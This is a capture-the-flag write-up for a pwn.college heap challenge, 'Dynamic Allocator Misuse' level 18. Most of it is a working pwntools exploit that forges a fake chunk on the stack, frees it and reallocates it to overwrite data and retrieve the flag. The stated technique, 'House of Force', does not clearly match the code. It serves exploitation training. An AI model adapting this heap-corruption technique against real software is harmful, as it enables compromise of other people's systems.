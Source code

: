```yaml
---
layout: post
title: (Dynamic Allocator Misuse) level 18
categories: pwn.college Dynamic-Allocator-Misuse
date: 2025-10-14 08:10:27 +0300
tags: pwn.college PIE ASLR heap house-of-force tecache metadata house-of-spirit safe-linking 
---
```

## Information
- category: pwn


## Description 
> Revisit a prior challenge, now with TCACHE safe-linking.

## Write-up
 House of Force to pivot `malloc` into the stack.


## Exploit
```python
from pwn import *

elf = context.binary = ELF("/challenge/babyheap_level18.1")
global p
p = elf.process()

def malloc(idx,size):
    p.sendline(b"malloc")
    p.sendline(idx)
    p.sendline(size)

def free(idx):
    p.sendline(b"free")
    p.sendline(idx)

def scanf(idx,data):
    p.sendline(b"scanf")
    p.sendline(idx)
    p.sendline(data)

def stack_scanf(data):
    p.sendline(b"stack_scanf")
    p.sendline(data)

def stack_free():
    p.sendline(b"stack_free")

def puts(idx):
    p.sendline(b"puts")
    p.sendline(idx)

def send_flag(secret):
    p.sendline(b"send_flag")
    p.sendline(secret)

def quit():
    p.sendline(b"quit")

def exploit():
    data = b"A"*0x30 + p64(0) + p64(817)
    stack_scanf(data)

    stack_free()

    malloc(b"0",b"804")

    scanf(b"0",b"A"*160)

    send_flag(b"A"*16)

    quit()

    p.interactive()

def main():
    exploit()

if __name__ == "__main__":
    main()
```